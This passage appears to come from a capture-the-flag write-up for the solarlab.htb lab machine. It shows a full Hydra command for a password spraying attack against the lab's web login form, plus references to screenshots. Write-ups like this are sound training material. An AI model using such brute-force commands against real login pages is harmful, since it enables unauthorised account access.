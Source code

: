 ![report-wrong-pass-err](attachments/report-wrong-pass-err.png)

With the list of valid users, error message, and passwords, I performed a password spraying attack using Hydra:

```bash
hydra -L report-users.txt -P passwords.txt report.solarlab.htb -s 6791 http-post-form "/login:username=^USER^&password=^PASS^:User authentication error." -vV
```

![report-hydra-success](attachments/report-hydra-success.png)
